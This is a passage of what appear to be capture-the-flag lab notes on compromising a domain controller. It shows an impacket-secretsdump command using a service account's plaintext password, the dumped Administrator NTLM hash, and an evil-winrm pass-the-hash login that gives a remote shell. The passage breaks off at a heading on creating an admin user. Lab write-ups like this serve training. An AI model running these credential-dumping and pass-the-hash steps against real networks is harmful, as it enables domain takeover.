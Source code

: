 
## With svcBackups
Perform the same technique and dump secrets from the CORPDC machine, we will use the `svcBackups` account.

## Dump hashes on the `Server1` machine

$ `proxychains -q /usr/bin/impacket-secretsdump corp.thereserve.loc/svcBackups:'q9nzssaFtGHdqUV3Qv6G'@10.200.113.102`

![[Dumping secrets from CORPDC-20240601064020744.webp]]

Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3d4edcc015856e386074795aea86b3e:::

## Connect using `evil-winrm`

$ `proxychains4 /usr/bin/evil-winrm -u Administrator -H d3d4edcc015856e386074795aea86b3e -i 10.200.113.102`

![[Dumping secrets from CORPDC-20240602155726615.webp]]

You'll get a shell.
Check out the hostname.

Evil-WinRM PS C:\Users\Administrator\Documents> `hostname`

![[Dumping secrets from CORPDC-20240602160026969.webp]]

### Create a new user as an Administrator

